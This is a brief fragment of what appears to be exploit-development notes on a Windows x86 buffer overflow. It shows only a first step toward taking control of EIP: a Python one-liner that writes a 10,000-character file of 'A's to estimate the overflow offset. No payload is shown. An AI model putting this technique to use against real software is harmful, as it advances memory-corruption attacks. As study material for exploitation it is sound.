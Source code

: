 # buffer overflow Windows x86

## Take control EIP

- Get rough estimate offset
```shell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```


